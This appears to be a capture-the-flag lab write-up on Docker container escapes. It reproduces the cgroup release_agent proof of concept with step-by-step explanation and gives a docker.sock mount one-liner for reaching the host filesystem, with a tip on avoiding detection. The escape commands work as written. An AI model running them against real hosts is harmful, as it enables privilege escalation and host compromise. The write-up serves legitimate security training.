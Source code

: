 - Example exploit for mount capability: [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.) 
```sh
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
  
**1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system. Since we can manage "cgroups" as root on the host, we'll mount this to "_/tmp/cgrp_" on the container.

**2**. For our exploit to execute, we'll need to tell the kernel to run our code. By adding "1" to "_/tmp/cgrp/x/notify_on_release_", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt).

**3.** We find out where the container's files are stored on the host and store it as a variable.

**4.** We then echo the location of the container's files into our "_/exploit_" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

**5.** Let's turn our exploit into a shell on the host

**6.** Execute a command to echo the host flag into a file named "flag.txt" in the container once "_/exploit_" is executed.

**7.** Make our exploit executable!

**8.** We create a process and store that into "_/tmp/cgrp/x/cgroup.procs_". When the processs is released, the contents will be executed.



---

### Exposed Docker daemon
- Should be a member  of ‘docker’ group or be root

```sh
# Find docker socket in container:
find / -type f -name 'docker.sock' 2> /dev/null


# For linux
ls -l /var/run/docker.sock
```
  

- Exploit: We will use Docker to create a new container and mount the host's filesystem into this new container. Then we are going to access the new container and look at the host's filesystem. Our final command will look like this: 
  `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
  which does the following:
	- We will need to upload a docker image. For this room, I have provided this on the VM. It is called "alpine". The "alpine" distribution is not a necessity, but it is extremely lightweight and will blend in a lot better. To avoid detection, it is best to use an image that is already present in the system, otherwise, you will have to upload this yourself.
